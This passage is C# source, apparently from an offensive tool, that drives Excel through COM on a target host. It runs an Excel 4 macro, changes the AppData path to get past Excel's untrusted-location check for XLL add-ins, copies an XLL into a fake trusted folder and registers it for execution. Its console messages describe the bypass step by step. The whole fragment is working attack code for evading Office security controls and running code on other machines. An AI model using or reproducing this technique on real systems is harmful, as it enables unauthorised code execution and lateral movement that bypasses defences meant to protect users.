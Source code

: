 ```cs
    {
        Console.WriteLine(" [x] NOT IMPLEMENTED: This method cannot be used remotely");
        Environment.Exit(1);
    }
    AppData appData = AppData.CreateInstance();

    if (!Validator.IsValidXLLPath(path))
    {
        Console.WriteLine(" [x] WARNING: Loading XLL from untrusted location is disabled by default");
    }

    var macro = $"DIRECTORY(\"{path}\")";

    try
    {
        Exception regXLLex = null;
        var type = Type.GetTypeFromProgID("Excel.Application", target);
        var obj = Activator.CreateInstance(type);
        obj.GetType().InvokeMember("ExecuteExcel4Macro", BindingFlags.InvokeMethod, null, obj,
            new object[] { macro });

        if (!Validator.IsValidXLLPath(path))
        {
            Console.WriteLine(" [-] WARNING: Trying to modify AppData to bypass untrusted location check");
            Console.WriteLine($" [+] INFO: Old AppData {appData.GetCurrent()}");
            appData.Change(path);
            Console.WriteLine($" [+] INFO: New AppData {appData.GetCurrent()}");
            Console.WriteLine($" [+] Generating Fake Path: {fakePath}");
            try
            {
                if (!Directory.Exists(fakePath))
                {
                    DirectoryInfo di = Directory.CreateDirectory(fakePath);
                }

                Console.WriteLine(" [+] Moving XLL file");
                File.Copy(filePath, fakeFilePath);

            }
            catch(Exception e)
            {
                regXLLex = e;
            }
        }

        try
        {
            obj.GetType().InvokeMember("RegisterXLL", BindingFlags.InvokeMethod, null, obj,
                new object[] { fakeFilePath });
            var exe = Activator.CreateInstance(type);
        }
        catch (Exception e)
        {
            regXLLex = e;
        }
        // Restoring AppData
        if (appData.ChangeApplied())
        {
            Console.WriteLine(" [+] Restoring AppData");
            appData.Restore();
        }
```